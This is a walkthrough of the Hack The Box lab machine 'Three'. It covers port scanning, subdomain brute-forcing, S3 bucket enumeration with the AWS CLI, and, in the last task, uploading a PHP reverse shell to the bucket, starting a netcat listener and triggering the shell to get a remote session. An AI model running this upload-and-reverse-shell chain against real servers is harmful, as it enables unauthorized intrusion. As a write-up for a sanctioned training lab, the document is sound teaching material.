










Three Machine - Hack The Box

### Task 1: How many TCP ports are open? 

To determine which TCP ports are open, we can use the following command:

`nmap -p- <IP>`

This command scans all 65,535 TCP ports on the target IP address. However, this can be slow, so we can speed it up with the following command:

`nmap -p- -T4 -n --min-rate 1000 <IP>`

- The `-T4` option sets a faster timing template, which is generally safe and doesn't usually trigger security mechanisms or false negatives.
- The `-n` option disables DNS resolution, preventing nmap from resolving IP addresses to hostnames, which speeds up the scan.
- The `--min-rate 1000` option ensures that nmap sends at least 1000 packets per second.

As shown in the image, SSH and HTTP services are open, indicating that we can access the IP address in a web browser.

Solution: **2** 

### Task 2: What is the domain of the email address provided in the "Contact" section of the website? 

When we access the IP address in the browser, we see a page for "The Toppers," a music group. In the "Contact" section, the provided email address is mail@thetoppers.htb.

Solution: **thetoppers.htb** 

### Task 3: In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames? 

The `/etc/hosts` file maps IP addresses to hostnames. If a hostname is found in this file, the system will use this mapping instead of querying a DNS server.

Solution: **/etc/hosts**

### Task 4: Which sub-domain is discovered during further enumeration? 

Based on the email domain, we suspect the main domain is thetoppers.htb. We add this to our `/etc/hosts` file.

Now, when we navigate to http://thetoppers.htb, the corresponding website appears.

To discover subdomains, we can use Gobuster, a tool that brute-forces DNS subdomains. Gobuster’s vhost mode checks for subdomains by visiting URLs and verifying the IP address. A wordlist of common subdomains is used, such as:
- [Subdomain Wordlist](https://github.com/danielmiessler/SecLists/blob/master/Discovery/DNS/subdomains-top1million-110000.txt)

However, Gobuster might return a "400: Bad Request" error. A possible fix is to add the `--append-domain` flag in later versions of Gobuster.

Alternatively, wfuzz is another tool that, while more complex and slower, can handle a larger number of requests in parallel:

`wfuzz -u http://thetoppers.htb -w subdomains-top1million-110000.txt -H "Host: FUZZ.thetoppers.htb" --hh=11947`

This command brute-forces the domain by replacing the FUZZ keyword with potential subdomains from the wordlist. The `--hh` flag filters out subdomains with a specific response size, reducing noise in the results.

The tool discovers four possible subdomains. The subdomain s3 is particularly interesting as it relates to Amazon's Simple Storage Service (S3). We add an entry for s3.thetoppers.htb in `/etc/hosts` and visit the URL.

The page displays a JSON file.

Solution: **s3**

### Task 5: Which service is running on the discovered sub-domain? 

As discussed in the previous task, the subdomain s3.thetoppers.htb is associated with Amazon S3, a service that allows users to store and retrieve any amount of data.

Accessing this storage system could provide information on how to find the flag.

Solution: **Amazon s3**

### Task 6: Which command line utility can be used to interact with the service running on the discovered sub-domain? 

After some research, we find that the AWS Command Line Interface (CLI) is the tool for performing AWS-related tasks, including interacting with S3.

- [AWS CLI Documentation](https://docs.aws.amazon.com/cli/v1/userguide/cli-chap-welcome.html)

To install the AWS CLI, run the following commands:

`curl "https://awscli.amazonaws.com/awscli-exe-linux-x86_64.zip" -o "awscliv2.zip"`
`unzip awscliv2.zip`
`sudo ./aws/install`

Solution: **awscli**

### Task 7: Which command is used to set up the AWS CLI installation? 

The fastest way to set up the AWS CLI is to use the aws configure command, which prompts you to enter your AWS credentials and default settings.

[AWS CLI Quickstart Guide](https://docs.aws.amazon.com/cli/latest/userguide/getting-started-quickstart.html)

We followed the example on the documentation.

Solution: **aws configure**

### Task 8:  What is the command used by the above utility to list all of the S3 buckets? 

To list all the available AWS commands, use `aws help`. For S3-specific commands, use:

`aws s3 help`

One of the commands listed is ls, which is used to view the contents of directories or storage locations:

`aws --endpoint-url=http://s3.thetoppers.htb s3 ls`

This command lists all buckets owned by the user. In our case, it lists the thetoppers.htb bucket:

`aws --endpoint-url=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb`

This command lists objects and common prefixes within the specified bucket.

Solution: **aws s3 ls**

### Task 9:  This server is configured to run files written in what web scripting language? 

Since the `index.php` file is executed, the server is likely configured to run PHP scripts. We can use this knowledge to attempt a reverse shell.

A commonly used tool for accessing a web server running PHP is detailed here:

- [PHP Reverse Shell Guide](https://pentestmonkey.net/tools/web-shells/php-reverse-shell)

After downloading the reverse shell script, we upload it to S3 using the `cp` command in awscli, which allows us to copy files between local storage and the S3 bucket.

`aws --endpoint-url=http://s3.thetoppers.htb s3 cp ~/Documents/php-reverse-shell-1.0/php-reverse-shell.php s3://thetoppers.htb/php-reverse-shell.php`

Before uploading, modify the `php-reverse-shell.php` script to specify the IP and port for the reverse shell. The IP address (e.g., 10.10.14.217) can be found using `ifconfig`.

After uploading the script, start a TCP listener:

`nc -v -n -l -p 1234`

This command listens for incoming TCP connections using Netcat in verbose mode (`-v`), without DNS resolution (`-n`), in listen mode (`-l`), on port 1234 (`-p`).

Then, navigate to http://thetoppers.htb/php-reverse-shell.php to execute the script. If successful, the reverse shell will be displayed in the terminal.

After gaining access to the server, inspect the system and locate the flag in `/var/www/flag.txt`.

Flag submitted and the box is hacked! Well done!

Solution: **php**

